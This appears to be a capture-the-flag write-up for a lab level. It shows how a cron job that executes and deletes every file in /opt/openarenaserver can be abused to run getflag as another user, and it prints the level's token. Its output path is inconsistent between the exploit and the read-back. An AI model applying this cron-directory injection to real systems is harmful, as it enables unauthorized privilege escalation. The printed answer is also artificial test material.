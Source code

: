 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2005(level05) gid=2005(level05) groups=2005(level05),100(users)
```

This shows that we are operating as the user `level05`.

---
When we logged into the machine, a message appeared:
```
You have new mail.
```

## Step 2: Searching for Files

Next, let's search for files related to mail:
```bash
$ find / -name mail 2> /dev/null
/usr/lib/byobu/mail
/var/mail
/var/spool/mail
/rofs/usr/lib/byobu/mail
/rofs/var/mail
/rofs/var/spool/mail

```

Among the results, the contents of `/rofs/var/mail/level05` seem interesting:
```bash
$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
We learn from this that a cron job is running every 2 minutes, executing the script `/usr/sbin/openarenaserver` with `flag05` user privileges.

Let's take a look at this script.

---
## Step 3: Read the source code of script

First, let's identify the type of the script:
```bash
$ file /usr/sbin/openarenaserver
/usr/sbin/openarenaserver: POSIX shell script, ASCII text executable

$ cat /usr/sbin/openarenaserver
```
```c
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
### Explanation:
The script loops over all files in the /opt/openarenaserver/ directory.
For each file, it runs the script with bash in debug mode (bash -x) while limiting the execution time to 5 seconds using ulimit -t 5.
After executing, the script deletes the file.

---
## Step 4: Exploiting the Binary to Get a flag
To exploit this, we can create a file in /opt/openarenaserver/ that contains a command we want to execute with flag05 privileges. In this case, we want to obtain the flag, so we can create a file with the following content:

```bash
echo 'getflag > /tmp/output_getflag' > /opt/openarenaserver/exploit
```
When the cron job runs the script, it will execute our file and redirect the output of getflag to /tmp/output_getflag.

```bash
$ cat /tmp/output_flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
---

And there you have it, the token is `viuaaale9huek52boumoomioc`.
